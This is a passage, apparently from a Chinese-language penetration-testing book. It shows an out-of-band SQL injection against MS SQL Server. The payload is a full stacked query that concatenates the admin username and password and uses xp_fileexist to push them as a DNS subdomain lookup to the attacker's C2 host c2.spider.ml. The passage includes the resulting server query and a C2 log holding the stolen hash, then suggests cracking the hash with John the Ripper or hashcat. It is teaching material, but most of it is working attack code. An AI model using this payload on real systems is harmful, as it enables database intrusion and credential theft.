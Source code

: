 ```
select concat((select top 1 user from users where role = 'admin'),'.',(select top 1 password from users where role = 'admin'))
```

拼接的结果将存储在`@q`变量中，如下所示：

```
set @q=(select concat((select top 1 user from users where role = 'admin'),'.',(select top 1 password from users where role = 'admin')));
```

最后，我们执行`xp_fileexist` MS SQL 函数，强制发起 DNS 和 SMB 请求到我们的 C2 服务器，并将`@q`的内容作为子域：

```
exec('xp_fileexist **''\\'+@q+'.c2.spider.ml\test''**');--'
```

紧跟在双斜杠前面的双引号和单引号是 Windows 方式的转义单引号。

最终的载荷有点凌乱，但应该能奏效。我们将把所有语句合并为一行，每个语句之间用分号分隔：

```
';declare @q varchar(99);set @q=(select concat((select top 1 user from users where role = 'admin'),'.',(select top 1 password from users where role = 'admin'))); exec('xp_fileexist **''\\'+@q+'.c2.spider.ml\test''**');--
```

在后台，执行的 SQL 查询将如下所示：

```
SELECT * FROM users WHERE user = 'Dade';**declare @q varchar(99);set @q=(select concat((select top 1 user from users where role = 'admin'),'.',(select top 1 password from users where role = 'admin'))); exec('xp_fileexist ''\\'+@q+'.c2.spider.ml\test''');--**';
```

就像带外确认一样，我们声明了一个变量，其值将是连接的管理员用户名及其相应的密码哈希。最终命令指示 SQL 服务器通过 `EXEC()` MS SQL 函数执行 `xp_fileexist` 命令。和之前一样，我们不关心结果；我们只是想强制服务器发出一个我们控制的域名的 DNS 查询。

C2 服务器应该已收到一个包含从数据库中提取的凭证的 DNS 查询，以域名的形式表示：

```
**[...] [1438] [dns_53_tcp_udp 1441] connect**
**[...] [1438] [dns_53_tcp_udp 1441] recv: Query Type AAAA, Class IN, Name administrator.a7b0d65fdf1728307f896e83c306a617.c2.spider.ml**
**[...] [1438] [dns_53_tcp_udp 1441] disconnect**
**[...] [1438] [dns_53_tcp_udp 1441] stat: 1 qtype=AAAA qclass=IN** 
**qname=administrator.a7b0d65fdf1728307f896e83c306a617.c2.spider.ml**

```

很好！现在我们要做的就是“破解”哈希值。我们可以启动**John the Ripper**或**hashcat**来执行字典攻击或暴力破解，或者检查该值是否已经被计算过。
